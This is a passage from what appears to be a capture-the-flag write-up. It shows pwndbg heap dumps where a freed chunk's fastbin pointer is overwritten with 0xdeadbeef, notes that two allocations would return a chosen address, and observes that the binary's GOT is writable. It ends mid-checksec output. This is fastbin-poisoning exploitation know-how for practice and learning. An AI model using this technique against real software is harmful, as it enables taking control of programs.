 0x7270c0:	0x0000000000000000	0x0000000000000000
0x7270d0:	0x0000000000000000	0x0000000000000000
0x7270e0:	0x0000000000000000	0x0000000000020f21
0x7270f0:	0x0000000000000000	0x0000000000000000
0x727100:	0x0000000000000000	0x0000000000000000
0x727110:	0x0000000000000000	0x0000000000000000
0x727120:	0x0000000000000000	0x0000000000000000
0x727130:	0x0000000000000000	0x0000000000000000
pwndbg> fastbins
fastbins
0x20: 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x727080 ◂— 0x0
0x70: 0x0
0x80: 0x0
pwndbg> p main_arena.fastbinsY
$1 = {0x0, 0x0, 0x0, 0x0, 0x727080, 0x0, 0x0, 0x0, 0x0, 0x0}
```
after edit, 0xdeadbeef is added to fastbin
```
pwndbg> ni
pwndbg> x/40gx 0x727000
0x727000:	0x0000000000000000	0x0000000000000021
0x727010:	0x0000000000400896	0x00000000004008b1
0x727020:	0x0000000000000000	0x0000000000000061
0x727030:	0x7878787878787878	0x7878787878787878
0x727040:	0x7878787878787878	0x7878787878787878
0x727050:	0x7878787878787878	0x7878787878787878
0x727060:	0x7878787878787878	0x7878787878787878
0x727070:	0x7878787878787878	0x7878787878787878
0x727080:	0x0000000000000000	0x0000000000000061
0x727090:	0x00000000deadbeef	0x0000000000000000
0x7270a0:	0x0000000000000000	0x0000000000000000
0x7270b0:	0x0000000000000000	0x0000000000000000
0x7270c0:	0x0000000000000000	0x0000000000000000
0x7270d0:	0x0000000000000000	0x0000000000000000
0x7270e0:	0x0000000000000000	0x0000000000020f21
0x7270f0:	0x0000000000000000	0x0000000000000000
0x727100:	0x0000000000000000	0x0000000000000000
0x727110:	0x0000000000000000	0x0000000000000000
0x727120:	0x0000000000000000	0x0000000000000000
0x727130:	0x0000000000000000	0x0000000000000000
pwndbg> fastbins
fastbins
0x20: 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x727080 ◂— 0xdeadbeef
0x70: 0x0
0x80: 0x0
pwndbg> p main_arena.fastbinsY
$2 = {0x0, 0x0, 0x0, 0x0, 0x727080, 0x0, 0x0, 0x0, 0x0, 0x0}
```
then malloc twice, 0xdeadbeef is returned, need to set 0xdeadbeef to a useful address.
got is changable
```
pwndbg> checksec
[*] '/root/ctf/1/pwn'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found